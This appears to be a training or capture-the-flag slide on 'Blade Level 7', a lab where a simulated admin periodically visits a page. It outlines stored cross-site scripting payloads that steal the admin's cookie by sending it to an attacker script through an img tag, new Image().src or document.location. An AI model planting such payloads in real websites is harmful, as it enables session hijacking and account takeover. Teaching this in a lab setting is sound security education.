

# Blade Level 7
Blade level07 uses this idea
admin visits this page every so often
I have a casperjs script that will do this 44 mins after every hour
Redirects mean you wanna be first
<img src=yourscript?steal=cookie> is more neighborly
Or maybe <script> new Image().src =
Or document.location
Ajax should work too (haven’t tested)